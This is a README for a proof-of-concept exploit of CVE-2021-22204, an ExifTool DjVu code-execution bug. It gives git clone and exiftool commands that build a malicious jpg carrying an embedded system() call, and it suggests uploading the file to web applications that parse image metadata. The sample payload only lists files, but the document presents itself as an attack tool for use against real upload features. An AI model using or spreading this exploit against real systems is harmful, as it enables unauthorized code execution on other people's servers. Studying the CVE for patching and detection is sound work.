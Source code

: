 # JPEG_RCE
Exiftool bug which leads to RCE </br></br>
***CVE-2021-22204 - RCE***

</br>
*REFFERENCE*
 
</br>Related hackerone report : https://hackerone.com/reports/1154542 </br>

*VULNERABILITY*

ExifTool 7.44 to 12.23 has a bug in the DjVu module which allows for arbitrary code execution when parsing malicious images.</br>

*REQUIREMENTS*

if you are using other image ,it should be a valid jpeg/jpg file </br>
You can check that with exiftool 
</br>
The meta-data should be : 
<br>
`MIME Type                       : image/jpeg"` 
</br>
</br>
*EXPLOIT VECTOR*

If the web application has a feature of uploading image and if the application is parsing the metadata of the uploaded image file using exiftool, you can always give a try with this exploit </br>
</br>
*NOTE*

The exiftool version should be between  7.44 to 12.23. </br>
</br>
*COMMAND (exploit)* 

`git clone https://github.com/OneSecCyber/JPEG_RCE.git`
</br> 
</br> `cd JPEG_RCE`
</br>
<br> `exiftool -config eval.config runme.jpg -eval='system("ls -la")'`
</br>
<br>
It will create malicious jpg file </br>
Upload the file or run the file in you local system to see the magic.. 
</br>
<br>
`exiftool runme.jpg `
</br>
<br>
*POC*

![Watch the video](https://github.com/OneSecCyber/JPEG_RCE/blob/main/POC.mp4)

</br>


